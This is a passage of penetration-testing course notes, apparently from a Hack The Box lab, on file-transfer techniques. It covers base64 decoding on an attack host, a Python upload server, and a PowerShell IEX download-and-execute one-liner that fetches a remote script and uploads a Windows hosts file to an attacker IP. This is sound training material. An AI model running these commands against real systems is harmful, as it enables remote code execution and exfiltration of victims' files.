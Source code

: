 We copy this content and paste it into our attack host, use the `base64` command to decode it, and use the `md5sum` application to confirm the transfer happened correctly.

<mark style="color:orange;">**Decode Base64 String in Linux**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ echo IyB..o= | base64 -d > hosts
```
{% endcode %}

{% code fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ md5sum hosts 

3688374325b992def12793500307566d  hosts
```
{% endcode %}

***

### <mark style="color:blue;">PowerShell Web Uploads</mark>

PowerShell doesn't have a built-in function for upload operations, but we can use `Invoke-WebRequest` or `Invoke-RestMethod` to build our upload function.&#x20;

<mark style="color:orange;">**Installing a Configured WebServer with Upload**</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ pip3 install uploadserver

Collecting upload server
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```
{% endcode %}

{% code fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ python3 -m uploadserver

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endcode %}

Now we can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses `Invoke-RestMethod` to perform the upload operations. The script accepts two parameters `-File`, which we use to specify the file path, and `-Uri`, the server URL where we'll upload our file. Let's attempt to upload the host file from our Windows host.

<mark style="color:orange;">**PowerShell Script to Upload a File to Python Upload Server**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```
{% endcode %}
